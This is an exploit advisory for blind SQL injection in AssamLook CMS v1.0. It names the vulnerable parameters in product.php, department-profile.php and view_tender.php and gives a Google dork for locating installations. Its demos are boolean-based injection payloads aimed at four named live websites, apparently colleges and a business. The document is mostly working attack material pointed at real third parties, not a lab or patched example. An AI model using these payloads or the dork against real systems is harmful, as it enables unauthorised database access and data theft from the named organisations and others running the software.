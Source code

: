 ## Exploit Title: AssamLook CMS - Blind SQL Injection Vulnerabilities



Vender: https://assamlook.com/

Software: AssamLook CMS v1.0

Google Dork: intext:"Powered By Assamlook.com"

Category: WebApps

Tested On: Windows, Firefox

*********************************************************

[+] Vulnerable Parameter: `id` or `did` in URLs with `.php?id=` or `.php?did=`

*********************************************************

### Description

AssamLook CMS has Blind SQL Injection Vulnerabilities in 

- product.php?id=

- department-profile.php?did=

- view_tender.php?id=



### Demo 1:

https://rhinoprintopacks.com/product.php?id=53' and 1=1--+  
https://rhinoprintopacks.com/product.php?id=53' and 1=2--+  

### Demo 2:
https://www.nonoicollege.in/department-profile.php?did=1' and 1=1--+  
https://www.nonoicollege.in/department-profile.php?did=1' and 1=2--+  

### Demo 3:
https://rahacollege.co.in/department-profile.php?did=3' and 1=1--+  
https://rahacollege.co.in/department-profile.php?did=3' and 1=2--+  

### Demo 4:
https://www.lumdingcollege.org/view_tender.php?id=108' and 1=1--+  
https://www.lumdingcollege.org/view_tender.php?id=108' and 1=2--+  

*********************************************************

[+] Google Dork:
intext:"Powered By Assamlook.com"

*********************************************************
# Discovered by: AmirHossein Abdollahi | Mr_Amir_Typer